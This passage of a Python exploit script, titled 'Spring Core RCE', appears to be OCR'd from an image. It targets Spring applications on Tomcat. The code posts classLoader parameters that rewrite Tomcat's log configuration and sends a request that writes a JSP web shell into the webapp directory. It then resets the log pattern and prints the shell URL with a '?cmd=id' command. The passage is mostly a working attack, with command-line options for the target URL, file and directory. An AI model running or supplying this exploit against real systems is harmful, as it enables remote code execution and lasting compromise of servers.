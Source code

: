 ```python3
    file_date_data = "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=_"
    print("[*] Resetting Log Variables.")
    ret = requests.post(url, headers=post_headers, data=file_date_data, verify=False)
    print("[*] Response code: %d" % ret.status_code)

    # Change the tomcat log location variables
    print("[*] Modifying Log Configurations")
    ret = requests.post(url, headers=post_headers, data=exp_data, verify=False)
    print("[*] Response code: %d" % ret.status_code)

    # Changes take some time to populate on tomcat
    time.sleep(3)

    # Send the packet that writes the web shell
    ret = requests.get(url, headers=get_headers, verify=False)
    print("[*] Response Code: %d" % ret.status_code)

    time.sleep(1)

    # Reset the pattern to prevent future writes into the file
    pattern_data = "class.module.classLoader.resources.context.parent.pipeline.first.pattern="
    print("[*] Resetting Log Variables.")
    ret = requests.post(url, headers=post_headers, data=pattern_data, verify=False)
    print("[*] Response code: %d" % ret.status_code)


def main():
    parser = argparse.ArgumentParser(description='Spring Core RCE')
    parser.add_argument('--url', help='target url', required=True)
    parser.add_argument('--file', help='File to write to [no extension]', required=False, default="shell")
    parser.add_argument('--dir', help='Directory to write to. Suggest using "webapps/[appname]" of target app',
                        required=False, default="webapps/ROOT")

    file_arg = parser.parse_args().file
    dir_arg = parser.parse_args().dir
    url_arg = parser.parse_args().url

    filename = file_arg.replace(".jsp", "")

    if url_arg is None:
        print("Must pass an option for --url")
        return

    try:
        run_exploit(url_arg, dir_arg, filename)
        print("[+] Exploit completed")
        print("[+] Check your target for a shell")
        print("[+] File: " + filename + ".jsp")

        if dir_arg:
            location = urlparse(url_arg).scheme + "://" + urlparse(url_arg).netloc + "/" + filename + ".jsp"
        else:
            location = f"Unknown. Custom directory used. (try app/{filename}.jsp?cmd=id"
        print(f"[+] Shell should be at: {location}?cmd=id")
    except Exception as e:
        print(e)


if __name__ == '__main__':
```